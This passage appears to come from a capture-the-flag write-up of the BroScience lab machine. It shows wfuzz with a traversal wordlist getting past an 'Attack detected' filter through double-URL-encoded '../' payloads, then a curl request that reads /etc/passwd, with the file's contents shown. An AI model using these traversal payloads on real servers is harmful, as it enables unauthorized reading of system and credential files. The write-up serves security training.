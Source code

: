 If I try to visit anything with `../` in the path, it just returns “Attack
detected”:

![image-20230330163045462](../img/image-20230330163045462.png)

#### Fuzzing

There’s a really nice traversal wordlist
[here](https://github.com/foospidy/payloads/blob/master/other/traversal/dotdotpwn.txt)
that will try all sorts of tests. I’ll use `wfuzz` (I can’t use `ffuf` until
[this bug](https://github.com/ffuf/ffuf/issues/645) is fixed) to try all
these, filtering out any response with the string “Attack” and any with 0
size:

    
    
    oxdf@hacky$ wfuzz -u https://broscience.htb/includes/img.php?path=FUZZ -w dotdotpwn.txt --hs Attack --hh 0
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: https://broscience.htb/includes/img.php?path=FUZZ
    Total requests: 4648
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                                        
    =====================================================================
    
    000000166:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fissue"
    000000165:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
    000000162:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252f..%252fetc%252fissue"
    000000161:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
    000000158:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252fetc%252fissue"
    000000157:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252fetc%252fpasswd"
    
    Total time: 46.66168
    Processed Requests: 4648
    Filtered Requests: 4642
    Requests/sec.: 99.61064
    

These six requests seem to return data. I’ll try one in Firefox:

    
    
    oxdf@hacky$ curl -k https://broscience.htb/includes/img.php?path=..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ...[snip]...
    bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    _laurel:x:998:998::/var/log/laurel:/bin/false
    